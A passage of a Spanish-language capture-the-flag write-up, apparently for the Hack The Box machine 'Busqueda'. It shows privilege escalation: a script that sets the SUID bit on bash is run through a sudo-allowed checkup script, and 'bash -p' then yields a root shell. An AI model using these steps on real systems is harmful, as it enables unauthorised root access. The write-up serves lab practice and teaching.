 ```
svc@busqueda:~/privesc$ cat full-checkup.sh 
#!/bin/bash

chmod u+s /usr/bin/bash
```

Le damos `permisos` de `ejecución` al archivo

```
svc@busqueda:~/privesc$ chmod +x full-checkup.sh 
```

`Ejecutamos` el `script`

```
svc@busqueda:~/privesc$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
```

`Comprobamos` que el `script` ha `funcionado`

```
svc@busqueda:~/privesc$ ls -l /usr/bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /usr/bin/bash
```

Nos `convertimos` en `root` spawneando una `bash` como el `propietario` que es `root`

```
svc@busqueda:~/privesc$ bash -p
bash-5.1# whoami
root
```
